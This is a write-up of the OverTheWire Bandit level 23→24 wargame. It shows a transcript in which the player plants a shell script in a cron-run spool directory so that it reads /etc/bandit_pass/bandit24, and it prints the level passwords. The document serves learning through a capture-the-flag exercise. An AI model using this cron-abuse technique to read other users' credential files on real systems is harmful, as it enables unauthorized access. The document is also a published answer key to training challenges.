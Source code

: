 # Bandit Level

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solucion
```bash
bandit23@bandit:~$ mkdir /tmp/Oss
bandit23@bandit:~$ cd /tmp/Oss
bandit23@bandit:/tmp/Oss$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/Oss/password"
 > mix2.sh
bandit23@bandit:/tmp/Oss$ chmod 777 mix2.sh
bandit23@bandit:/tmp/Oss$ touch password
bandit23@bandit:/tmp/Oss$ chmod 666 password
bandit23@bandit:/tmp/Oss$ cd -
/home/bandit23
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls -la
total 48
drwxr-xr-x   2 root root 4096 Sep  1 06:30 .
drwxr-xr-x 110 root root 4096 Sep  8 12:09 ..
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit15_root
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit17_root
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit22
-rw-r--r--   1 root root  122 Sep  1 06:30 cronjob_bandit23
-rw-r--r--   1 root root  120 Sep  1 06:30 cronjob_bandit24
-rw-r--r--   1 root root   62 Sep  1 06:30 cronjob_bandit25_root
-rw-r--r--   1 root root  201 Jan  8  2022 e2scrub_all
-rwx------   1 root root   52 Sep  1 06:30 otw-tmp-dir
-rw-r--r--   1 root root  102 Mar 23 13:49 .placeholder
-rw-r--r--   1 root root  396 Feb  2  2021 sysstat
bandit23@bandit:/etc/cron.d$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ cd /tmp/Oss
bandit23@bandit:/tmp/Oss$ cp mix2.sh /var/spool/$myname/foo
cp: cannot create regular file '/var/spool//foo': Permission denied
bandit23@bandit:/tmp/Oss$ cp mix2.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/Oss$ ls -la
total 240
drwxrwxr-x    2 bandit23 bandit23   4096 Sep 11 03:08 .
drwxrwx-wt 3826 root     root     229376 Sep 11 03:11 ..
-rwxrwxrwx    1 bandit23 bandit23     51 Sep 11 03:08 mix2.sh
-rwxrwxrwx    1 bandit23 bandit23     42 Sep 11 03:07 mix.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Sep 11 03:08 password
bandit23@bandit:/tmp/Oss$
bandit23@bandit:/tmp/Oss$ ls -la
total 240
drwxrwxr-x    2 bandit23 bandit23   4096 Sep 11 03:08 .
drwxrwx-wt 3826 root     root     229376 Sep 11 03:11 ..
-rwxrwxrwx    1 bandit23 bandit23     51 Sep 11 03:08 mix2.sh
-rwxrwxrwx    1 bandit23 bandit23     42 Sep 11 03:07 mix.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Sep 11 03:08 password
bandit23@bandit:/tmp/Oss$ date
Sun Sep 11 03:13:01 AM UTC 2022
bandit23@bandit:/tmp/Oss$ ls -la
total 244
drwxrwxr-x    2 bandit23 bandit23   4096 Sep 11 03:08 .
drwxrwx-wt 3826 root     root     229376 Sep 11 03:13 ..
-rwxrwxrwx    1 bandit23 bandit23     51 Sep 11 03:08 mix2.sh
-rwxrwxrwx    1 bandit23 bandit23     42 Sep 11 03:07 mix.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Sep 11 03:12 password
bandit23@bandit:/tmp/Oss$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/Oss$

```
## Notas adicionales

## Referencias